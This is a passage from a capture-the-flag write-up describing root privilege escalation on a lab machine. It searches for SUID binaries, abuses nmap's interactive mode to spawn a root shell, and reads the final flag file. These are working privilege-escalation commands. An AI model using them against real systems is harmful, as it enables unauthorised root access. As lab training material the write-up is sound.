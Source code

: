 ### Root Privilege Escalation
To escalate privileges to ```root```, I searched for SUID binaries, which allow a program to be executed with elevated privileges:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Among the results, I found Nmap with the SUID bit set. The version of Nmap installed on the system supported interactive mode, which allows commands to be executed as root.

<img src="images/find.png" style="align: right" alt="nmap" width="600"/>



```bash
nmap --interactive
```

<img src="images/nmap-interactive.png" style="align: right" alt="nmap" width="600"/>

At this point I spawned a root shell and captured the final flag:

```bash
!sh
cat /root/key-3-of-3.txt
```

<img src="images/root-3.png" style="align: right" alt="nmap" width="600"/>
